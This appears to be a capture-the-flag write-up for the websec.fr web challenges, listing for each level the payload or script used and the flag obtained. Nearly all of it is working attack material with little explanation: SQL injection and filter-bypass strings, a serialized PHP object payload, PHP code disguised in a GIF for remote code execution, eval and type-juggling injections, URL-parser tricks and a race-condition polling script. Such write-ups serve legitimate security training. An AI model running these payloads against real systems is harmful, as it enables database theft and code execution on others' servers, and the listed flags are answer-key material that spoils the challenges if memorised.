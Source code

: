 # Websec.fr-Writeups

## Level 1

```sql
0 union select id,password from users; --
```

```
WEBSEC{Simple_SQLite_Injection}
```

## Level 2

```sql
0 ununionion selselectect id,password frfromom users; --
```

```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

## Level 4

```php
$s = new SQL();
$s->SQL_query('select password as username from users;');
echo base64_encode(serialize(array("ip" => "109.186.77.58", "exploit" => $s)));

// a:2:{s:2:"ip";s:13:"109.186.77.58";s:7:"exploit";O:3:"SQL":2:{s:5:"query";s:39:"select password as username from users;";s:4:"conn";N;}}

// YToyOntzOjI6ImlwIjtzOjEzOiIxMDkuMTg2Ljc3LjU4IjtzOjc6ImV4cGxvaXQiO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjM5OiJzZWxlY3QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgZnJvbSB1c2VyczsiO3M6NDoiY29ubiI7Tjt9fQ==
```

```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

## Level 8

PHP Injected in GIF

```php
GIF89a;

<?php
print_r(scandir("."));
?>
```

```php
GIF89a;

<?php
echo file_get_contents('flag.txt');
?>
```

```
WEBSEC{BypassingImageChecksToRCE}
```

## Level 10

PHP Type Juggling

```python
#!/usr/bin/env python3
import requests

count = 1
while True:
    res = requests.get("http://websec.fr/level10/index.php?hash=0e1&f={}".format("." + count*"/" + "flag.php"))
    if (res.text.find("WEBSEC{") != -1):
        print(res.text)
        print(count)
        break
    else:
        count += 1
        print(count, len(res.text))
```

```
WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}
```

## Level 11

SQL Aliases without `as` keyword

```
user_id=2&table=(select 2 id, enemy username from costume)&submit=Submit+Query
```

```
WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}
```

## Level 15

create_function() uses eval

```php
};echo $flag;//
```

```
WEBSEC{HHVM_was_right_about_not_implementing_eval}
```

## Level 17

Bypass strcasecmp by providing array instead of string

```yaml
"body": "flag[]=blabla&submit=Go"
```

```
WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
```

## Level 25

Exploit url_parse function

```
https://websec.fr/level25/index.php?page=flag&:1337

OR

https://websec.fr///level25/index.php?page=flag
```

```
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
https://www.php.net/manual/en/function.parse-url.php#:~:text=parse_url(%22http%3A///example.com%22)%3B
```

```
WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}
```

## Level 28

```
#!/usr/bin/env python3
import requests
import time

URL = "https://websec.fr/level28/tmp/"
FILE = "66b99941e5e007c9ceba59743b2a8270.php"

while True:
    res = requests.get(f"{URL}/{FILE}")
    if res.status_code != 404:
        print(res.text)
    else:
        print("NOPE")
    time.sleep(0.1)
```

```
<?php
include("../flag.php");
echo $flag;
?>
```

```
WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}
```
